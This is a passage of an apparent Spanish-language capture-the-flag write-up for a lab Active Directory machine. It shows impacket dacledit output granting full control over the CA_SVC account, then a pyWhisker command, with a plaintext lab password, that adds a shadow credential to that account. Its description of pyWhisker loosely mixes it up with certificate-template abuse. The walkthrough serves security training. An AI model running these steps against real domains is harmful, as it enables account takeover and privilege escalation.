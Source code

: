 ```bash
/usr/share/doc/python3-impacket/examples/dacledit.py:122: SyntaxWarning: invalid escape sequence '\R'
  'S-1-5-32-575': 'BUILTIN\RDS Remote Access Servers',
/usr/share/doc/python3-impacket/examples/dacledit.py:123: SyntaxWarning: invalid escape sequence '\R'
  'S-1-5-32-576': 'BUILTIN\RDS Endpoint Servers',
/usr/share/doc/python3-impacket/examples/dacledit.py:124: SyntaxWarning: invalid escape sequence '\R'
  'S-1-5-32-577': 'BUILTIN\RDS Management Servers',
/usr/share/doc/python3-impacket/examples/dacledit.py:125: SyntaxWarning: invalid escape sequence '\H'
  'S-1-5-32-578': 'BUILTIN\Hyper-V Administrators',
/usr/share/doc/python3-impacket/examples/dacledit.py:126: SyntaxWarning: invalid escape sequence '\A'
  'S-1-5-32-579': 'BUILTIN\Access Control Assistance Operators',
/usr/share/doc/python3-impacket/examples/dacledit.py:127: SyntaxWarning: invalid escape sequence '\R'
  'S-1-5-32-580': 'BUILTIN\Remote Management Users',
Impacket v0.12.0 - Copyright Fortra, LLC and its affiliated companies 

[*] DACL backed up to dacledit-20250429-205912.bak
[*] DACL modified successfully!
                                            
```

De esta manera nos hemos otorgado control total sobre el objeto CA_SVC

### Uso de pyWhiskers

Después de obtener control total sobre el usuario `CA_SVC`, el siguiente paso estratégico es aprovechar **pyWhisker**, una poderosa herramienta diseñada para abusar de entornos con **AD CS (Active Directory Certificate Services)**.

**¿Qué es pyWhisker?**

**pyWhisker** es una herramienta escrita en Python que permite automatizar ataques contra la infraestructura de certificados de Active Directory. Está especialmente diseñada para interactuar con servicios de inscripción de certificados mal configurados o inseguros, y puede ser usada para:

- Enumerar plantillas de certificados disponibles.
- Solicitar certificados usando identidades legítimas o suplantadas.
- Obtener TGTs (tickets de autenticación Kerberos) directamente desde certificados.
- Escalar privilegios abusando de configuraciones inseguras en AD CS.

**¿Para qué la vamos a usar en esta máquina?**

Como ya tenemos control completo sobre el usuario `CA_SVC`, lo que haremos ahora con pyWhisker es **solicitar un certificado en su nombre** (suplantando su identidad), aprovechando las plantillas vulnerables del servidor de certificados. Con este certificado, podemos autenticarnos en el dominio como si fuéramos `CA_SVC`, sin necesidad de conocer su contraseña. Para ello usaremos el siguiente comando


```bash
(kali㉿kali)-[~/pyWhisker/pywhisker/pywhisker]
└─$                       
python3 pywhisker.py -d sequel.htb -u ryan -p WqSZAF6CysDQbGb3 --target ca_svc --action add

[*] Searching for the target account
[*] Target user found: CN=Certification Authority,CN=Users,DC=sequel,DC=htb
[*] Generating certificate
[*] Certificate generated
[*] Generating KeyCredential
[*] KeyCredential generated with DeviceID: fb9671f5-425b-ac0c-4044-4b81106d0746
[*] Updating the msDS-KeyCredentialLink attribute of ca_svc
[+] Updated the msDS-KeyCredentialLink attribute of the target object
[*] Converting PEM -> PFX with cryptography: 3XPpuhro.pfx
```